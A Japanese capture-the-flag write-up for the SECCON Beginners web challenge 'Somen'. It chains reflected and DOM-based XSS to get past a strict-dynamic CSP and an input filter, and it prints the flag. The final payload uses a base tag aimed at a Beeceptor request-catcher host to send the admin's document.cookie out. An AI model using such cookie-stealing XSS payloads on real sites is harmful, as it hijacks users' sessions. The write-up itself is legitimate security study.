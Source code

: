# Somen
```
Somen is tasty.

https://somen.quals.beginners.seccon.jp
Hint:
　worker.js (sha1: 47c8e9c879e2a2fb2e5435f2d0fcfaa274671f43)
　index.php (sha1: dffac56c2435b529e1bb60c6f71803aded2051af)
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83315075-904cde80-a258-11ea-9f9d-f6bcd4351e95.png)

問題のurlにいくとと2箇所に入力欄があるページに移動しました。

ヒントに2つのファイルが渡されているのでそっちも見てみます。

すると`worker.js`に以下のことが書いてあります。

```javascript
// set cookie
await page.setCookie({
    name: 'flag',
    value: process.env.FLAG,
    domain: process.env.DOMAIN,
    expires: Date.now() / 1000 + 10,
});
```

これでflagはcookieに設定されているとわかります。

<br>

次に`index.php`の方を見てみます。

すると以下の`username`がそのまま出力されていることがわかります。

なのでReflected XSSが出来ると思われます。

```php
<title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>
```

あともう一つ、以下でDOM-based XSSも出来ると思われます。

```php
document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
```

<br>

以上にあがった2つの脆弱性を使って解くと思われますが、以下に制限がされていました。

・`inde.php`でのContent制限　`CSP`

```php
<?php
$nonce = base64_encode(random_bytes(20));
header("Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='");
?>
```

・`security.js`での入力制限

```html
<script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
```

```html
const username = new URL(location).searchParams.get("username");
if (username !== null && ! /^[a-zA-Z0-9]*$/.test(username)) {
    document.location = "/error.php";
}
```

どうにかしてこれらの制限をクリアさせなければ難しそうです。

<br><br>

まずはじめに、RXSSが`title`要素の中にあることに注目しました。

１つ目の解決策として`/security.js`を実行させないようにしなくればなりません。

ここで以下にあるように`script`要素で`nonce`が付けられて閉じていることがわかります。

```html
<title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="<?= $nonce ?>">
```

なので`username`に`</title><script>`を入れてみる場合を考えてみます。

```html
<title>Best somen for </title><script></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="FHnRMK/GC62ODRynO72fHYGsHj4=">
```

これで`<scrit>`内がJavascriptのコードをして解釈されると思われます。

なので`/security.js`を実行させないようにできます。

<br>

次に`CSP`のbypassを考えます。

何かをしてJSコードを実行出来るようにします。

CSPの部分をキーワードで調べてみると`dynamic-strict`でヒットしました。

`message`という`ID`属性がある`script`を上手く挿入すれば実行できるそうです。

それを本来の挿入先より前に設定してあげることで任意のJSを実行してくれる仕組みみたいです。

DOMがJSと解釈されないように`//`を先頭に付けてコメントアウトするようにします。

試しに`alert(document.domain)//</title><script id="message"></script><script>`を挿入してみます。

すると`alert(document.domain)`により、アラートが表示されました。

![4](https://user-images.githubusercontent.com/47602064/83319201-3a3b6380-a277-11ea-8222-13b4c54362de.png)

これでJSを実行できるようになりました。

<br><br>

あとはこれらを上手く組み合わせて使い、`cookie`を得れればflagが手に入ります。

ここで任意のURLにリダイレクトさせることで`cookie`を得てみます。

今回は`Beeceptor`を使いました。

`https://testtest3.free.beeceptor.com`というのを作って、用意してここに送らせてみます。

リダイレクト先の埋め込みは`base`タグで指定してみます。

<br>

最終的に以下を２つ目の入力欄に入力してadminに送ります。

`document.location='/?'+document.cookie//</title><base href="//testtest3.free.beeceptor.com"><script id="message"></script>`

するとこんな感じに表示されるので`Beeceptor`で見てみるとflagが表示されました。

![3](https://user-images.githubusercontent.com/47602064/83318873-cea3c700-a273-11ea-91e1-c7e47ce6e8f1.png)

![2](https://user-images.githubusercontent.com/47602064/83318837-5f2dd780-a273-11ea-966a-0e546c433fd4.png)

<br>

## FLAG: ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
